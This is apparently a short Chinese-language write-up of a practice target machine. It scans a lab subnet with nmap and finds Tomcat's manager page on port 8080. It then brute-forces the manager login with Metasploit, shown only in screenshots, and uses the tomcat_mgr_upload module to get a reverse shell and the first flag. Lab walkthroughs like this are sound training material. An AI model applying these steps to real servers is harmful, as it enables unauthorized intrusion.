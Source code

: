 # 靶机

#### 1.存活主机

`nmap -sn 192.197.55.0/24`

![1](https://i.loli.net/2019/12/31/WbEKGvY4N3mVAF7.png)

![2](https://i.loli.net/2019/12/31/CDsZJGmNM8AKL3h.png)

根据提示我们可以查看

`nmap -sV 192.197.55.3`

![3](https://i.loli.net/2019/12/31/QRuzj2DKTAh6etG.png)

可以看到8080端口开放

浏览器访问

![4](https://i.loli.net/2019/12/31/wqfzRteDGB1cvrJ.png)

单纯图片

扫描目录

![5](https://i.loli.net/2019/12/31/uLARKBzk5DInGsg.png)
访问manager

![6](https://i.loli.net/2019/12/31/gPkoZ4dcpzOhiCJ.png)

#### 2.利用msf爆破·

![7](https://i.loli.net/2019/12/31/lg7Z4vUHLKPejCR.png)
![8](https://i.loli.net/2019/12/31/SFKHgkq8AheUY2D.png)
#### 3.Tomcat Manager经过身份验证的上载代码执行

```
use exploit/multi/http/tomcat_mgr_upload
```

![9](https://i.loli.net/2019/12/31/TeUmJAkQw36OShl.png)

成功反弹到shell

flag1

![10](https://i.loli.net/2019/12/31/wYvszgNuMHPQKyX.png)

